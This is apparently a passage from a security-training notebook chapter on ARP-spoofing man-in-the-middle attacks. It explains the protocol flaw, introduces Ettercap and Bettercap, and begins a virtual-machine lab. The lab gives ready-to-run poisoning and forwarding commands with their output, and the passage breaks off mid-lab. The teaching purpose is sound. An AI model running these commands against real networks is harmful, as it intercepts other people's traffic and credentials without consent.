









This is Chapter 5 of the Network Attacks notebook, and it marks a shift in what
you are doing to a network. The previous four chapters — the Wireshark trilogy
and the tcpdump chapter — taught you to **read** traffic that was already
reaching your interface. That is passive work: you attach to a wire, you promise
to touch nothing, and you observe. This chapter teaches the opposite posture.
Here you actively insert yourself between two communicating hosts so that their
packets physically pass through your machine before continuing on. You are no
longer a bystander on the wire; you *are* the wire. That position — the
**man-in-the-middle (MITM)** — is the single most powerful vantage point on a
local network, because from it you can read, modify, redirect, or drop anything
that is not cryptographically protected end to end.

Everything in this chapter is for **authorised testing only**: your own lab, a
range you built, or a network you have a signed engagement to assess. Poisoning
the ARP cache of a machine you do not own is, in nearly every jurisdiction, an
offence regardless of intent. We will build a lab of virtual machines you fully
control and attack only those.

---

## Why This Matters, and Who This Is For

Almost every internal penetration test on a corporate LAN passes through some
form of man-in-the-middle. You land on a network via a dropped implant, a rogue
laptop in a meeting room, or a compromised host, and the first question is
"whose traffic can I see, and can I make more of it come to me?" On a switched
network the honest answer to the first part is "not much" — a switch, unlike the
ancient hub, only sends each frame to the port that needs it. The entire art of
LAN-based MITM is convincing the switch, or the hosts themselves, to send you
traffic that was never meant for you. ARP spoofing is the oldest, simplest, and
still one of the most reliable ways to do exactly that.

This chapter assumes you have the earlier Network Attacks chapters under your
belt: you can capture with Wireshark and tcpdump, you can read a TCP handshake
and an ARP exchange, and you understand IP addressing, MAC addresses, and the
difference between Layer 2 and Layer 3 from the Networking notebook (Notebook 2,
especially the chapters on Ethernet/ARP and on TCP). If any of that feels shaky,
revisit those chapters first — MITM is where all of it collides at once.

By the end you will understand precisely why ARP spoofing works, be fluent in
both Ettercap and Bettercap, be able to poison two hosts and harvest a cleartext
credential in a lab, understand exactly where modern encryption stops you cold,
and — just as importantly — know how a defender detects and prevents every
technique shown here.

---

## Part 1: What "Man-in-the-Middle" Actually Means

A man-in-the-middle attack is any attack in which the attacker secretly relays
and possibly alters the communication between two parties who believe they are
talking directly to each other. The definition is transport-agnostic: you can be
a MITM on a radio link, a USB cable, a TLS session, or a LAN. In this chapter we
focus on the **LAN MITM**, where the two parties are typically a victim host and
its default gateway (the router), and the medium is a switched Ethernet network.

The crucial property is **transparency**. If the victim's connection simply
breaks, that is a denial of service, not a MITM — useful sometimes, but not the
goal. A successful MITM forwards traffic onward so that both endpoints continue
to function normally and notice nothing, while every packet passes through the
attacker. That forwarding requirement is why, later, we will be so careful to
enable IP forwarding: forget it, and you have knocked the victim offline instead
of spying on them.

MITM attacks are usually described by three capabilities, in increasing order of
power:

| Capability | What the attacker can do | Example |
| --- | --- | --- |
| **Eavesdrop** | Read traffic passing through | Capture a cleartext HTTP login |
| **Modify** | Alter traffic in flight | Inject a payload into an HTTP response, rewrite a DNS answer |
| **Impersonate** | Terminate the connection and pretend to be the other side | Present a rogue TLS certificate, run a fake login portal |

A LAN MITM via ARP spoofing gives you the first two almost for free. The third —
impersonation of an encrypted service — is where modern defences (TLS, HSTS,
certificate pinning) make you work very hard and usually fail, which is a good
thing for the internet and something we will treat honestly rather than
pretending SSL stripping still works everywhere.



The diagram captures the whole idea: your job is to bend the two arrows of a
normal conversation so that both pass through you, then faithfully forward them
so nobody notices the detour.

---

## Part 2: Why a Switch Doesn't Save You — A Refresher on Layer 2

To understand ARP spoofing you must first understand why you cannot simply plug
in and see everyone's traffic on a modern network, and then why that protection
is so easy to defeat.

### Hubs vs switches

A **hub** is a dumb repeater: every bit that arrives on one port is blasted out
of every other port. On a hubbed network, sniffing is trivial — put your NIC in
promiscuous mode and you see everything. Hubs are effectively extinct; you will
only meet one in a museum or a deliberately vulnerable lab.

A **switch** is smart. It learns which MAC address lives on which physical port
by watching the source MAC of frames arriving on each port, and it stores those
mappings in a **CAM table** (Content-Addressable Memory, also called the MAC
address table). When a frame arrives destined for a known MAC, the switch sends
it *only* out the one port where that MAC lives. Traffic between two other hosts
never reaches your port at all. This is why the passive sniffing you learned in
the Wireshark chapters only ever showed you your own traffic plus broadcasts and
multicasts on an ordinary switched LAN.

### The switch's blind spot: ARP

The switch operates purely on MAC addresses. It has no idea about IP addresses,
and — critically — it trusts whatever the hosts tell each other at Layer 2. The
mechanism hosts use to map an IP address to a MAC address is the **Address
Resolution Protocol (ARP)**, and ARP is where the whole edifice is undermined.

Recall from the Networking notebook how ARP works. When host A wants to send an
IP packet to host B on the same subnet, it needs B's MAC address. It broadcasts
an **ARP request**: "Who has 192.168.1.1? Tell 192.168.1.50." Every host on the
segment receives the broadcast; the one that owns 192.168.1.1 replies with an
**ARP reply**: "192.168.1.1 is at aa:bb:cc:dd:ee:ff." Host A caches that mapping
in its **ARP table** and starts sending frames to that MAC.

Here is the fatal design flaw, and it is worth stating plainly because every
technique in this chapter rests on it:

> **ARP has no authentication and is stateless.** A host will accept and cache
> an ARP reply even if it never sent a corresponding request, and it will
> happily overwrite an existing entry with a newer one. There is no signature,
> no sequence number, no challenge. Whoever speaks last, wins.

That single sentence is the entire vulnerability. If I send the victim an
unsolicited ARP reply claiming that the gateway's IP is at *my* MAC address, the
victim overwrites its cache and starts sending gateway-bound frames to me. The
switch, seeing frames addressed to my MAC, dutifully delivers them to my port.
No exploit, no memory corruption, no CVE — just a protocol that was designed in
1982 for a trusted network and never hardened.



---

## Part 3: ARP Spoofing / ARP Poisoning in Depth

The terms **ARP spoofing** and **ARP poisoning** are used interchangeably.
Strictly, *spoofing* is the act of sending a forged ARP message, and *poisoning*
is the resulting corrupted state of a victim's ARP cache. In practice everyone
says both. To become a full-duplex MITM between a victim and its gateway you must
poison **both** caches:

- Tell the **victim** that the *gateway's IP* is at *your MAC*, so the victim
  sends upstream traffic to you.
- Tell the **gateway** that the *victim's IP* is at *your MAC*, so return
  traffic destined for the victim also comes to you.

Poison only one side and you get half-duplex interception — you would see the
victim's outbound requests but the server's replies would go straight back to
the victim, and TCP connections would stall. Two-sided poisoning is what makes
the interception transparent.

### Gratuitous ARP and the two ways to poison

There are two forms of forged ARP you will see:

1. **Unsolicited ARP replies** (the classic method). You send ARP *reply*
   packets that nobody asked for, directly to the target. Most operating systems
   accept them and update the cache.
2. **Gratuitous ARP (GARP).** A gratuitous ARP is an ARP announcement a host
   normally sends about *itself* (for example, right after acquiring an IP, to
   tell everyone "I am here"). It is either a request or reply where the sender
   and target IP are the same. Attackers abuse GARP by announcing the *gateway's*
   IP as belonging to the attacker's MAC. Broadcast GARP poisons every host on
   the segment at once.

Ettercap and Bettercap both default to sending replies to the two specific
targets, which is quieter than broadcasting to the whole LAN.

### The forwarding requirement (do not skip this)

Once traffic is flowing to you, your machine must **forward** it to the real
destination, or the victim loses connectivity and immediately suspects trouble.
On Linux this means enabling IP forwarding in the kernel:

```bash
# Enable IPv4 forwarding for the current boot (non-persistent)
sudo sysctl -w net.ipv4.ip_forward=1

# Verify it took effect
cat /proc/sys/net/ipv4/ip_forward
# 1
```

`sysctl -w` writes a runtime kernel parameter. `net.ipv4.ip_forward=1` tells the
kernel to route packets between interfaces/hosts rather than dropping anything
not addressed to itself. Reading `/proc/sys/net/ipv4/ip_forward` confirms the
value — `1` means forwarding is on. **Bettercap manages this for you** (it flips
the flag when `arp.spoof` starts and restores it on stop), and **Ettercap also
enables it internally**, but you should understand what is happening because a
forgotten forwarding flag is the single most common reason a beginner's MITM
turns into an accidental denial of service.

There is a subtlety: when the Linux kernel forwards a packet on behalf of
another host, it may emit an **ICMP redirect** telling the victim "you should
send this directly to the gateway, not through me." That would undo your
position. Both tools disable ICMP redirects during an attack; if you are
scripting by hand, do it yourself:

```bash
# Stop the kernel from sending "you took a suboptimal route" hints that
# would tell the victim to bypass us.
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
```

### The restoration problem

When you stop the attack, the victim and gateway still have poisoned caches
pointing at you. If you simply exit, their traffic keeps coming to a machine
that is no longer forwarding — an outage that lasts until the caches time out
(often 30–60 seconds, longer on some systems). A well-behaved MITM tool sends
**corrective ARP packets** on shutdown, re-announcing the true MAC/IP pairs to
both parties so connectivity is restored instantly. Ettercap's clean exit and
Bettercap's `arp.spoof off` both do this. Killing the tool with `kill -9` does
not — so exit cleanly.

---

## Part 4: Meet Ettercap — From Zero

**Ettercap** is a veteran, comprehensive suite for man-in-the-middle attacks on
a LAN. It first appeared in 2001 and remains a staple precisely because it
bundles the whole workflow — host discovery, ARP poisoning, packet forwarding,
connection tracking, credential dissectors, and a plugin/filter system — behind
one interface. If you have ever seen a screenshot of a hacker "sniffing
passwords on the network," there is a good chance it was Ettercap.

### What it is and why it exists

Ettercap's core value is that it does the tedious plumbing for you. Poisoning ARP
by hand (crafting packets, forwarding, tracking who is talking to whom, pulling
credentials out of dozens of protocols) is a lot of code. Ettercap packages it
and adds **dissectors** — protocol parsers that automatically extract usernames
and passwords from cleartext protocols (HTTP, FTP, Telnet, POP3, IMAP, SMTP,
SNMP, and more) as they stream past. Its **filter engine** can also rewrite
traffic in flight using a small compiled scripting language.

### Installing Ettercap on Kali

Ettercap ships preinstalled on Kali Linux. If it is missing or you are on a plain
Debian/Ubuntu box:

```bash
# Kali / Debian / Ubuntu
sudo apt update
sudo apt install -y ettercap-graphical

# Confirm the version and that the binary is on PATH
ettercap --version
# ettercap 0.8.3.1
```

The `ettercap-graphical` package provides both the GTK GUI and the text/curses
interfaces from one binary. `ettercap --version` prints the build so you can
confirm the install; 0.8.3.x is the current generation.

### The three interfaces

Ettercap can run in three modes, selected by a flag:

| Flag | Interface | Best for |
| --- | --- | --- |
| `-T` | **Text/console** (with an interactive curses-lite UI) | Scripting, SSH sessions, repeatable engagements |
| `-C` | **Curses** ncurses menu UI | Quick interactive use in a terminal |
| `-G` | **GTK GUI** | Learning, visual host lists, point-and-click |

For real work you will live in `-T` (text) mode because it scripts cleanly and
works over SSH with no display. We will use it in the lab.

### Sniffing modes: unified vs bridged

Ettercap has two fundamental sniffing architectures, and choosing the wrong one
is a classic beginner mistake:

- **Unified sniffing (the default).** Your one NIC both receives the victim's
  traffic and forwards it back out the same interface toward the real gateway.
  This is what you use on an ordinary LAN with a single network card. The kernel
  does the forwarding.
- **Bridged sniffing (`-B`).** You have **two** NICs and physically sit inline —
  traffic enters one card and leaves the other, and Ettercap bridges them in
  userspace. This is genuinely inline (no ARP poisoning needed) and is used when
  you can insert a device physically between a host and the switch, for example a
  drop box on an ethernet run. It is stealthier (no ARP anomalies) but requires
  physical access and two interfaces.

We use **unified** sniffing for ARP poisoning throughout this chapter.

### Ettercap architecture at a glance



The key architectural point: the **MITM method** (how you get traffic to flow
through you) is decoupled from the **dissectors and filters** (what you do with
that traffic once it does). ARP poisoning is only one of several methods Ettercap
supports; ICMP redirection, DHCP spoofing, and switch port-stealing are others,
though ARP is by far the most used.

---

## Part 5: Ettercap Targeting and Host Discovery

Before poisoning anything you need to know who is on the network and choose your
targets deliberately. Poisoning the entire subnet (leaving targets empty) is
loud, indiscriminate, and on a busy network can overwhelm your single NIC as *all*
traffic funnels through you — a good way to cause an outage and get caught. On an
engagement you almost always pick two specific targets: **the victim** and **the
gateway**.

### Ettercap's target syntax

Ettercap targets are written as `MAC/IP/PORT`, and each field can be empty to
mean "any." You provide up to two target sets, `TARGET1` and `TARGET2`, and
Ettercap poisons the traffic *between* them.

| Target string | Meaning |
| --- | --- |
| `/192.168.1.50//` | Only the host 192.168.1.50, any MAC, any port |
| `/192.168.1.1//` | Only the gateway 192.168.1.1 |
| `//` | Everything (whole subnet) — avoid on real networks |
| `/192.168.1.50-60//` | A range of hosts |
| `/192.168.1.10,192.168.1.20//` | Two specific hosts |

So to MITM the victim ⇄ gateway conversation, `TARGET1` is the victim and
`TARGET2` is the gateway.

### Scanning for hosts

Ettercap can build a host list itself by ARP-scanning the subnet, but you have
already learned better recon tools. In practice, discover hosts first with a
quick scan and then feed Ettercap the two IPs you care about:

```bash
# Fast ARP-layer host discovery on the local subnet with nmap.
# -sn      : ping/host-discovery only, no port scan
# -PR      : ARP scan (Layer 2) — the fastest, most reliable on a LAN
# 192.168.56.0/24 : the lab subnet in CIDR
sudo nmap -sn -PR 192.168.56.0/24
```

`-sn` disables port scanning so nmap only determines which hosts are up. `-PR`
forces ARP requests for discovery, which on a local segment is both faster and
harder to block than ICMP. The output lists live IPs and their MACs — exactly
the inventory you need to choose targets. `arp-scan -l` is an even more direct
alternative dedicated to this one job.

---

## Part 6: Meet Bettercap — The Modern Successor

**Bettercap** describes itself as "the Swiss Army knife for network attacks and
monitoring," and it is the modern, actively developed answer to Ettercap. Where
Ettercap is a C program with a fixed feature set, Bettercap is a modular Go
program organised around **modules** you turn on and off at runtime, an
interactive session, an **event stream**, a scripting system called **caplets**,
and even a web UI. For contemporary engagements Bettercap is usually the better
choice: it handles ARP, DNS, DHCPv6/NDP, Wi-Fi, Bluetooth LE, and HID attacks
from one console, and its network probing keeps a live host inventory for you.

### What it is and why it exists

Bettercap was written to modernise and unify the fragmented landscape of MITM and
recon tools. Rather than one program per task (arpspoof here, dnsspoof there,
sslstrip somewhere else), Bettercap exposes each capability as a module in a
single REPL. You compose an attack by enabling the modules you need — for a LAN
MITM that is typically `net.probe` (discover hosts), `arp.spoof` (poison), and
`net.sniff` (capture and dissect) — and everything shares one host inventory and
one event log.

### Installing Bettercap on Kali

```bash
# Preferred on Kali: the packaged build
sudo apt update
sudo apt install -y bettercap

# Confirm it runs and see the version
bettercap -version
# bettercap v2.x
```

If you need the very latest, Bettercap is a single Go binary and can be built
from source with `go install`, but the Kali package is fine for everything in
this chapter. Bettercap must run as root because it opens raw sockets and
manipulates the kernel's forwarding settings.

### The Bettercap interactive session

Launch it against a specific interface:

```bash
# -iface : the interface to attack on (find yours with `ip a`)
sudo bettercap -iface eth0
```

You land in an interactive prompt. A few essential meta-commands:

| Command | Effect |
| --- | --- |
| `help` | List all modules and their on/off state |
| `help <module>` | Show a module's parameters |
| `<module> on` / `<module> off` | Start / stop a module |
| `get <param>` | Read a parameter's current value |
| `set <param> <value>` | Change a parameter |
| `active` | Show currently running modules |
| `q` | Quit (cleans up spoofing and restores state) |

The mental model is a mixing desk: each module is a channel you slide up (`on`)
or down (`off`), and `set` tweaks its knobs. This is very different from
Ettercap's one-shot command line and is why Bettercap feels more like an
operating console than a single tool.



### Caplets — Bettercap's scripts

A **caplet** is a `.cap` file containing a sequence of Bettercap commands, the
equivalent of a shell script for the Bettercap REPL. Community caplets ship in
`/usr/share/bettercap/caplets/` and cover common flows (for example
`http-req-dump`, `fb-phish`, `mitm6`). You run one with `bettercap -caplet
name.cap` or from inside the session. Caplets are how you turn a fiddly manual
sequence into a one-liner you can rerun identically on every engagement.

---

## Part 7: HANDS-ON LAB — Poisoning Two Hosts and Harvesting a Login

This is the core of the chapter: a complete, reproducible lab you can build and
run end to end. We will use three virtual machines on an isolated host-only
network, poison the victim⇄gateway path, capture a cleartext login, and then
spoof DNS. **Do this only in your own lab.**

### Lab topology



**Build it:**

- **Attacker:** Kali Linux VM, interface `eth0`, IP `192.168.56.10`.
- **Victim:** any Ubuntu or Windows VM, IP `192.168.56.20`.
- **"Server"/gateway:** either the VirtualBox host-only gateway `192.168.56.1`,
  or a third VM running a simple HTTP login (DVWA, or a one-line Python server)
  so we have a cleartext credential to steal. Using a deliberately vulnerable web
  app such as DVWA keeps everything lawful and self-contained.

Set all three to the **same host-only / internal network** so no traffic leaves
your machine. Confirm connectivity with `ping` between them before attacking.

### Step 0 — Reconnaissance

From the attacker, inventory the segment:

```bash
sudo nmap -sn -PR 192.168.56.0/24
```

```text
Starting Nmap 7.94 ...
Nmap scan report for 192.168.56.1
Host is up (0.00021s latency).
MAC Address: 08:00:27:00:00:01 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.20
Host is up (0.00034s latency).
MAC Address: 08:00:27:AA:BB:20 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.10
Host is up.
Nmap done: 3 IP addresses (3 hosts up) scanned in 1.90 seconds
```

Record the two targets: victim `192.168.56.20`, gateway `192.168.56.1`.

### Step 1 — Baseline the victim's ARP cache

On the **victim**, look at the ARP table *before* the attack so you can see the
poisoning happen. On Linux:

```bash
ip neigh show
# 192.168.56.1 dev enp0s3 lladdr 08:00:27:00:00:01 REACHABLE
```

On Windows the equivalent is `arp -a`. Note that the gateway `192.168.56.1`
currently maps to its **real** MAC `08:00:27:00:00:01`. When we poison, this will
flip to the attacker's MAC.

### Step 2 — The attack with Ettercap (text mode)

The single command that performs the whole MITM:

```bash
sudo ettercap -T -q -i eth0 -M arp:remote /192.168.56.20// /192.168.56.1//
```

Break it down flag by flag — this is the tool-from-scratch rule in action:

| Token | Meaning |
| --- | --- |
| `-T` | Text interface (scriptable, no GUI) |
| `-q` | Quiet — don't print full packet contents, just the interesting extracted data (credentials, events). Without `-q` the console floods. |
| `-i eth0` | Use interface `eth0` |
| `-M arp:remote` | **M**ITM method = ARP poisoning. `remote` also captures traffic between the victim and *remote* hosts through the gateway (essential — without `remote`, Ettercap only handles traffic where both endpoints are on the LAN). |
| `/192.168.56.20//` | TARGET1 = victim (empty MAC, empty port) |
| `/192.168.56.1//` | TARGET2 = gateway |

Expected startup output (abridged):

```text
ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth0 -> DE:AD:BE:EF:00:10
      192.168.56.10/255.255.255.0

Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
...
Scanning for merged targets (2 hosts)...
* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.56.20 08:00:27:AA:BB:20
 GROUP 2 : 192.168.56.1 08:00:27:00:00:01

Starting Unified sniffing...

Text only Interface activated...
Hit 'h' for inline help
```

Ettercap has now enabled IP forwarding, disabled redirects, and is sending forged
ARP replies to both hosts every few seconds to keep the caches poisoned.

### Step 3 — Confirm the poison landed

Back on the **victim**, re-check the ARP cache:

```bash
ip neigh show
# 192.168.56.1 dev enp0s3 lladdr de:ad:be:ef:00:10 REACHABLE   <-- attacker's MAC!
```

The gateway `192.168.56.1` now maps to `de:ad:be:ef:00:10`, the **attacker's**
MAC. The victim believes the attacker is the router. Do the same check for the
